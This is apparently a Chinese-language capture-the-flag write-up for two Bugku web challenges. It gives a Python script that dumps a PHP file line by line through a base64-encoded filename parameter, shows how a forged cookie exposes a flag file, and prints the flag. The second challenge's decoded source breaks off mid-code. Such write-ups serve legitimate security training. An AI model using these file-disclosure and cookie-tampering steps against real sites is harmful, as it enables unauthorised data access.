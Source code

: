 ## cookies欺骗
打开网址 url=http://123.206.87.240:8002/web11/index.php?line=&filename=a2V5cy50eHQ=
- 好像有base64 解码得`keys.txt`
- 尝试用filename访问index.php（原url使用base64，这也将index.php进行编码`aW5kZXgucGhw`
- 构造 http://123.206.87.240:8002/web11/index.php?line=1&filename=aW5kZXgucGhw
- 显示信息切换行数都有 写脚本获取全部代码
  ```python 
  import requests
  a=30
  for i in range(a):
      url="http://123.206.87.240:8002/web11/index.php?line="+str(i)+"&filename=aW5kZXgucGhw" 
      s=requests.get(url)
      print s.text
  ```
得到源代码
  ```php
  <?php
  error_reporting(0);
  $file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
  $line=isset($_GET['line'])?intval($_GET['line']):0;
  if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
  $file_list = array(
  '0' =>'keys.txt',
  '1' =>'index.php',
  );
  if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
  $file_list[2]='keys.php';
  }
  if(in_array($file, $file_list)){
  $fa = file($file);
  echo $fa[$line];
  }
  ?>
  ```
- 阅读得知cookie margin=margin
- 抓包raw加上Cookie: margin=margin 修改filename=a2V5cy5waHA=  然后go
- KEY{key_keys}

## never give up
url=http://123.206.87.240:8006/test/hello.php
显示：never never never give up !!! 
- 源码提1p.html 访问 123.206.87.240:8006/test/1p.html结果跳转bugku论坛
- 看一下这1p.html源码 view-source:http://123.206.87.240:8006/test/1p.html
- Words变量的值先url解码，再base64解码，再url解码
```php
  ";if(!$_GET['id'])
{
    header('Location: hello.php?id=1');
    exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
    echo 'no no no no no no no';
    return ;
}
$data = @file_get_contents($a,'r');
if($data=="bugku is a nice plateform!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
    require("f4l2a3g.txt");
```